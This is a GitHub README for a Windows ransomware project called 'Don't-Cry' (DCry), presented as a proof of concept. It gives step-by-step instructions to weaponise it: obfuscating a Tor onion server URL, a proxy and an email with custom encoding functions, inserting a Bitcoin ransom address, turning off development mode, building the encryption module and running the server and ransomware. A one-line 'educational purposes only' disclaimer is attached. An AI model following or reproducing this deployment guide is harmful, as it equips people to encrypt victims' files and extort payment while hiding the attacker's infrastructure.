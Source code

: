 <h1 align="center">Don't-Cry Ransomware PoC</h1>
  
<div align="center">
  <img src="https://img.shields.io/badge/Python-3.12%2B-blue?logo=python&logoColor=white" alt="Python">
  <img src="https://img.shields.io/badge/Requires-Cython-yellow?logo=python&logoColor=white" alt="Cython">
  <img src="https://img.shields.io/badge/Rust-1.87.0%2B-orange?logo=rust&logoColor=white" alt="Rust >= 1.87.0">
  <img src="https://img.shields.io/github/license/memecoder12345678/DCry-Ransomware?style=flat&logo=open-source-initiative&logoColor=white" alt="License">
  <img src="https://img.shields.io/badge/Platform-Windows-blue" alt="Platform">
  <img src="https://img.shields.io/github/stars/memecoder12345678/DCry-Ransomware?style=social" alt="Stars">
</div>

![DCry](imgs/DCry.png)
PoC ransomware written in Python 💀💀💀

## Usage
* Open the [`DCry.py`](src/DCry.py) file.
* Replace the `YOUR_URL` variable with the encoded URL using the `dx42` function like this:
  ```python
  YOUR_URL = dx42(b"YOUR_ENCODED_URL").decode()
  ```
  (Use the `ex42` function from the `edx42` module to encode your URL first.)
  
  Example:
  ```python
  encoded_url = ex42(b"https://your-tor-server.onion")
  YOUR_URL = dx42(encoded_url).decode()
  ```
* Replace the `YOUR_PROXY` variable similarly with your encoded proxy string:
  ```python
  YOUR_PROXY = dx42(b"YOUR_ENCODED_PROXY").decode()
  ```
* Replace `YOUR_BITCOIN_ADDRESS` with your actual Bitcoin address string.
* Replace `YOUR_EMAIL_ADDRESS` similarly with your encoded email address. 
  ```python 
  YOUR_EMAIL_ADDRESS = dx42(b"YOUR_ENCODED_EMAIL_ADDRESS").decode()   
  ```
* Set `dev_mode = False` to disable development mode.
* Open the [`Decryptor.py`](src/Decryptor.py) file.
* Set `dev_mode = False` to disable development mode.
* Install the required packages with the following command:
  ```powershell
  pip install -r requirements.txt
  ```
* Build the Cython code with the following command:
  ```powershell
  python src/setup.py build_ext --inplace; Move-Item -Path file_crypto.*.pyd -Destination src -Force
  ```
* Run the server with the following command:
  ```powershell
  python src/Server.py
  ```
* Run the ransomware with the following command:
  ```powershell
  python src/DCry.py
  ```
* Run the decryptor with the following command:
  ```powershell
  python src/Decryptor.py
  ```

## Warning
> \[!WARNING]
> This project is a ransomware simulation for educational purposes only.

## FAQ 
* See details in [FAQ.md](docs/FAQ.md)

## Contributing  
* See contribution guidelines in [CONTRIBUTING.md](docs/CONTRIBUTING.md)

## Code Of Conduct  
* See our community standards in [CODE_OF_CONDUCT.md](docs/CODE_OF_CONDUCT.md)

## Security
* See the security policy in [SECURITY.md](docs/SECURITY.md)


## License
* This project is licensed under the terms of the [Apache License 2.0](./LICENSE).
